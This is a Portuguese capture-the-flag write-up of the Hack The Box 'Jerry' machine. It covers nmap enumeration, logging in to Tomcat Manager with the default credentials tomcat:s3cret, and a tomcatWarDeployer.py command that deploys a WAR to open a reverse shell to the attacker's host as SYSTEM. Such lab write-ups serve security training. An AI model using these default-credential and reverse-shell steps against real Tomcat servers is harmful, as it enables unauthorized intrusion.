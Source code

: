 ```yaml
---
title:     "Hack The Box - Jerry"
tags: [windows,easy]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/1.jpg)

## Enumeration

Hehehe, olha eu aqui novamentee

Iniciando com o nmap

```
root@kali:~/HTB-Windows/jerry# nmap -sV -p- -A -sC -T4 -oA nmap/init 10.10.10.95
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-02 17:22 EDT
Nmap scan report for 10.10.10.95
Host is up (0.20s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows Vista (86%)
OS CPE: cpe:/o:microsoft:windows_vista::sp1:home_premium
Aggressive OS guesses: Microsoft Windows Vista Home Premium SP1 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   214.34 ms 10.10.14.1
2   205.73 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1125.18 seconds
```

## Find Exploit

Temos um  `Apache Tomcat/7.0.88` vamos explorar isso

## Exploitation

Navegando ate o tomcat na pagina inicial temos algumas opcoes uma delas eh o `Manager App` quando clicamos ele pede senha para autenticar na application..

Se voce por qualquer cred, ele da erro e mostra o login  default `tomcat:s3cret`, voce tbm poderia fazer bruteforce na tentativa de encontrar uma cred valida.

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/2.jpg)

Usando o password default rapidamente fazemos login e assim vamos explorar esse acesso e obter uma reverse shell

um pouco mais abaixo encontramos informacoes sobre o server rodando em backgroud

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/3.jpg)

## Privilege Escalation

***reference*** https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

## Usando tomcatWarDeployer.py

Usando o tomcatWarDeployer.py(https://github.com/mgeeky/tomcatWarDeployer) conseguimos rapidamente obter uma reverse shell como SYSTEM

`python tomcatWarDeployer.py -U tomcat -P s3cret -H 10.10.14.37 -p 53 10.10.10.95:8080`

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-jerry/4.jpg)







